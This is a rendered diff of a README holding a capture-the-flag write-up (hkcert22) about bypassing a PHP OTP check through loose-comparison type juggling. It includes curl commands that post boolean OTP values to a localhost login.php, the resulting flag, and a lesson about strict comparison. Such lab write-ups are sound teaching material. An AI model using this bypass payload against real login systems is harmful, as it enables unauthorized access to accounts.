

Before and after one commit to waihankan/exercise, a Markdown page: two/README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/two/README.md
+++ b/two/README.md
@@ -87,9 +100,18 @@ for i in range(1000000):
 
 6. Check docker compose log for misconfiguration that can expose environmental variable (FLAG).
 
-7. Input Manipulation again with Booleans.
+7. Input Manipulation again...
 
-** The issue seems to lie in the function `verify_key`
+**This is the command that found the solution.**
+```
+curl -s -X POST http://localhost:8901/login.php \
+     -H "Content-Type: application/json" \
+     -d '{"username":"admin","password":"admin","otp1":true,"otp2":null,"otp3":[]}'
+```
+
+The response I got was: `{"error":{"code":500,"message":"wrong otp2","data":"otp2"}}%`, which basically means that the first opt got passed the verification.
+
+8. The issue seems to lie in the function `verify_key`
 
 ``` php
 public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
@@ -104,15 +126,24 @@ public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = t
 }
 ```
 
-Issue:
+## Takeaway
 ```php
 // in php language
 "123456" == true   // → true
 // should use === to disable type juggling ?
 ```
 
-
 ## Exploit / Solution
 ```
 curl -X POST http://localhost:8901/login.php -H "Content-Type: application/json" -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}' > response.txt && cat response.txt
 ```
+
+The Flag is in the `response.txt` file.
+
+## Flag
+```
+hkcert22{mistakes-off-the-page}
+```
+
+## Lessons Learned
+* Make sure not to use loose comparison for checking secrets.
````
Also changed, not shown: other parts of two/README.md (+23 -10 lines), one/README.md (+7 -1 lines).
